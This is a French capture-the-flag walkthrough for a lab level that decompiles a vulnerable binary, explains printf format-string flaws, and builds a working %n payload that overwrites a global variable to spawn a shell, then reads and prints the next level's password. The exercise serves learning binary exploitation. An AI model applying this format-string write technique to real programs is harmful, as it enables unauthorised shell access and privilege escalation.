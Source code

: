 # LEVEL 3
## Walkthrough

Voici les étapes suivit pour accéder au niveau supérieur, soit le `level4`.

1. Une fois connecté à la VM sur le `level3`, l'on retrouve un fichier `level3` situé à la racine du dossier utilisateur. Ce dernier s'avère être de nouveau un exécutable ELF (Executable and Linkable Format).

2. On extrait ce fichier sur la machine host soit en utilisant la commande `scp` soit en utilisant un logiciel créer à cet effet.

    ```sh
    > scp -P 4242 level3@127.0.0.1:level3 /path/on/machine/host
    ```

2. On ouvre ensuite ce fichier dans Ghidra et après analyse, on obtient le désassemblage ci-dessous (que l'on refactorise pour plus de clarté).

    ```sh
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>

    char m;

    int v(void)
    {
        int m;
        char local_20c[520];

        fgets(local_20c, 512, stdin); # 0x200 = 512
        printf(local_20c);

        if (m == 64) { # 0x40 = 64
            fwrite("Wait what?!\n", 1, 12, stdout); # 0xc = 12
            system("/bin/sh");
        }

        return EXIT_SUCCESS;
    }

    void main(void)
    {
        return v();
    }
	```

   À partir de ce désassemblage, on en déduit que le programme contient 2 fonctions : la fonction `main` et la fonction `v` qui, tout deux, ne prennent aucun paramètre.

    La fonction `main` appelle tout simplement la fonction `v` tandis que la fonction `v` déclare un tableau de caractères local nommé `local_20c` de `520 octets`, lit des données d'entrée depuis `stdin` un utilisant `fgets` et les stocke dans `local_20c`. La fonction utilise ensuite `printf` pour imprimer le contenu de `local_20c` et vérifie si la variable `m` a la valeur `0x40`, soit `64` en valeur décimale. Si c'est le cas, la fonction imprime `Wait what?!` avec la fonction `fwrite` et exécute un shell en utilisant `system("/bin/sh")`. On constate cependant que la variable `m` n'est pas définit dans la fonction, de fait, on suppose que cette dernière est une variable globale.

    Contrairement au niveau précédent, le programme utilise non pas `gets`, mais `fgets` qui est conçu pour répondre aux attaques de `buffer overflow`. Ainsi, il faudra exploiter le programme d'une autre façon.

4. Après quelques recherches, on apprend que la fonction `prinft` possède elle aussi des vulnérabilités. Ces dernières résidentes dans le formatage des chaînes de caractères. Lorsqu'on utilise `printf` pour afficher des données, on spécifie généralement un format pour ces données (comme `%s` pour les chaînes de caractères, `%d` pour les entiers, etc.). Cependant, si les arguments passés à `printf` ne correspondent pas au format spécifié, des vulnérabilités peuvent se produire.

    On y trouve notamment des vulnérabilités de :
    - Dépassement de tampon : Si le format spécifié ne correspond pas à la longueur réelle des données, cela peut entraîner un dépassement de mémoire ;
    - Lecture ou écriture de données sensibles : Les attaquants peuvent utiliser des formats incorrects pour accéder ou afficher des données sensibles ;
    - Injection de code malveillant : les attaquants peuvent injecter et exécuter du code malveillant en contrôlant les données d'entrée.

    Sachant cela, on doit trouver un moyen de modifier la valeur de `m` pour rentrer dans la condition `m == 0x40`.

    Liens:
    - https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/
    - https://owasp.org/www-community/attacks/Format_string_attack/


5. Tout d'abord, nous allons récupérer l'adresse de la variable `m` en utilisant `gdb` sur l'exécutable `level3` et la commande `info variable`:

    ```sh
    > gdb level3
    > info variable
    [...]
		0x0804988c  m
	[...]
    ```

6. On va ensuite utiliser une des vulnérabilités de la fonction `prinft` en entrant `AAAA.%x.%x.%x.%x` dans le prompt du programme `level3`.

    ```sh
    > ./level3
    > AAAA.%x.%x.%x.%x
    AAAA.200.b7fd1ac0.b7ff37d0.41414141
    ```

    On en déduit que :
    - `AAAA`: Le `AAAA` qu'on a injecté en premier ;
    - `200`: Un nombre utilisé par le programme, peut-être la valeur de `m` ? ;
    - `b7fd1ac0`, `b7ff37d0`: 2 adresses ;
    - `41414141`: Visiblement l'adresse de `AAAA`.

7. Maintenant, que l'on connaît l'emplacement de l'adresse `AAAA` on peut générer une payload ci-dessous.

    ```sh
    > python -c "print '\x8c\x98\x04\x08' + 'A' * 60 + '%4\$n'" > /tmp/payload3
    ```

    On a :
    - `\x8c\x98\x04\x08` : L'adresse de `m` en format little-endian ;
    - `'A' * 60`: On injecte 60 caractères `A`, soit la valeur de la condition de la fonction `m` moins `4` ;
    - `%4`: On veut récupérer la valeur de la 4e adresse dans la stack
    - `\$n`: on compte le nombre de caractère stocke à cette adresse, soit `64` qui équivaut à `0x40`.


5. En suite, l'on va utiliser la chaîne de caractère précédemment généré afin d'exploiter les vulnérabilités de l'exécutable `level3`. En exploitant `level3` de cette manière, on s'assure que la variable `m` est bien égale à `64` permettant à la condition `m == 0x40` d'être vérifiée et d'ainsi ouvrir un shell interactif où l'on va pouvoir obtenir le mot de passe pour le niveau suivant (au passage, on lance la commande `whoami` pour s'assurer que l'utilisateur a bien changé de `level3` à `level4`).

    ```sh
	> cat /tmp/payload3 - | ./level3
	> whoami
	level4
	> cat /home/user/level4/.pass
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
	```

6. On peut à présent passer au niveau supérieur en exécutant la commande `su level4` et en y spécifiant le mot de passe qui vient d'être trouvée.
    ```sh
    > su level4
    Password :
    > b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
    ```
